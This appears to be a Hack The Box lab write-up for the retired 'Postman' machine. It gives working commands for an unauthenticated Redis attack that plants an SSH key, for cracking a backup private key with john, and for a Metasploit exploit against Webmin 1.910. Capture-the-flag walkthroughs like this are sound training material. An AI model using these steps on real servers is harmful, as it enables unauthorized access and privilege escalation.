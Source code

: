 ```yaml
---
layout: default
---
```

## Postman
###### Retired March 2020
![](https://www.hackthebox.eu/storage/avatars/ad38e890e4e93afce51118bec4b9f48b.png)

I think and hope this is my last writeup before I discovered [Greenshot](https://getgreenshot.org/). Just want to show love for a great application that has greatly improved my image "editing". 

Anyway, Postman was a really easy machine loaded up with a couple of quick CVEs that exploited Redis for user and Webin for root. I’ve already added the machine to my /etc/hosts file as postman.htb. As always, I started with ```nmap```.

```bash
nmap -T5 -A -p 1-65535 postman.htb -n -oN nmap.results
```

![](https://yaboygmoney.github.io/htb/images/postman/nmap.JPG)

nmap showed that SSH, HTTP, Redis, and Webmin MiniServ were available on this machine. I did a quick glance at the website. 

![](https://yaboygmoney.github.io/htb/images/postman/website.JPG)

Nothing much was going on with the main page in the source. I ran gobuster and found some directories that sounded interesting but didn’t provide anything. That was expected, as the other services looked a little more interesting.

Checking out Redis version 4.0.9, I was quickly pointed to an [RCE exploit](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html). I checked for remote command execution vulnerability of the remote host with telnet first.

```bash
telnet postman.htb 6379
ECHO "Vulnerable"
```

![](https://yaboygmoney.github.io/htb/images/postman/vulncheck.JPG)

The system echoing back is a good sign. To take advantage of this exploit, I first needed to get redis tools. 

```bash 
apt-get install redis-tools
```

From there, it’s as easy as following the [CVE](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html).

```bash
ssh-keygen -t rsa -C “redis@postman.htb”
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
redis-cli -h postman.htb flushall
cat foo.txt | redis-cli -h postman.htb -x set crackit
redis-cli -h postman.htb
config get dir
config set dbfilename “authorized_keys”
save
```

![](https://yaboygmoney.github.io/htb/images/postman/sshprep.JPG)

Now I’m set to use the new key I just generated.

```bash
ssh -i id_rsa redis@postman.htb
```

![](https://yaboygmoney.github.io/htb/images/postman/redisLogin.JPG)

Successfully logged in, I can see that there’s only a single user’s home directory present: Matt. I half-heartedly try to cat the user flag and, as expected, am denied.

![](https://yaboygmoney.github.io/htb/images/postman/denied.JPG)

During enumeration, I found a backup file “id_rsa.bak”. A quick way to do this is to run

```bash
locate *.bak
```

![](https://yaboygmoney.github.io/htb/images/postman/locate.JPG)

An RSA private key. I copied the contents of that file back into gedit and saved it. Then, I ran it against the tool ssh2john. This tool converts an SSH key to a hash that John can crack.

```bash
/usr/share/john/ssh2john.py mattkey > mattkey.hash
```

After I’ve converted the key to a hash, I can run john against it to carve out the password.

```bash
john –wordlist=/usr/share/wordlists/rockyou.txt mattkey.hash
```

![](https://yaboygmoney.github.io/htb/images/postman/cracked.JPG)

I’ve now got a full-fledged set of creds: Matt:computer2008. Now that I have Matt’s password, I can ```su``` to Matt and get the user flag from the redis ssh session.

![](https://yaboygmoney.github.io/htb/images/postman/user.JPG)

Looking back at the nmap results, Webmin MiniServ 1.910 is served up on port 10000. There is an ![exploit]( https://www.exploit-db.com/exploits/46984) created for this version for any authenticated user to execute the package updates module as root. I downloaded the exploit and loaded it into my Metasploit exploits.

```bash
cd ~/.msf4/modules/exploits/linux
wget https://www.exploit-db.com/exploits/46984
msfconsole
```
Then I queue the exploit.

![](https://yaboygmoney.github.io/htb/images/postman/payload1.JPG)

I tried sending that configuration and got an error, no session. Then I remembered that the Webmin server was running on HTTPS and set SSL to True in Metasploit and fired again.

![](https://yaboygmoney.github.io/htb/images/postman/rooted.JPG)

Success. The CVE is exploited.

Until next time.

#### Keep trying
